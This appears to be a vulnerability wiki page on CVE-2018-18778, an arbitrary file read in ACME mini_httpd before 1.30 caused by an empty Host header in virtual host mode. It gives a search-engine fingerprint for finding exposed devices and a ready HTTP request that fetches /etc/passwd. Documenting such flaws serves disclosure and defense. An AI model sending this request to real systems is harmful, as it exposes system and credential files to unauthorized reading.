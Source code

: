 # ACME Mini_httpd Arbitrary file reading vulnerability CVE-2018-18778

## Vulnerability Description

The cause of the vulnerability is that the specific fields of the Http header are not filtered, resulting in the path to access system files, which can lead to access to any file. The attacker can use the vulnerability to read any file of the device, which will seriously threaten the security of devices using Mini_httpd.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ACME mini_httpd before 1.30</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ACME-mini_httpd"</span>

## Vulnerability reappears

Fingerprint information

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651364999726-9489ab39-a1ab-4a52-b979-c2be1b30f708-20220501090543203.png)

When mini_httpd is turned on virtual host mode, the user requests `https://HOST/FILE` to access the HOST/FILE file in the current directory.

When `HOST=example.com and FILE=index.html`, the result of the above statement is `example.com/index.html`, and the file is read normally.

When `HOST is empty and FILE=etc/passwd` is the result of the above statement to be `/etc/passwd`.

```java
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

Send request packet, empty host

```java
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: https://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651365228889-3cc62bb4-cb20-49d0-a6f6-c91258efc211-20220501090543427.png)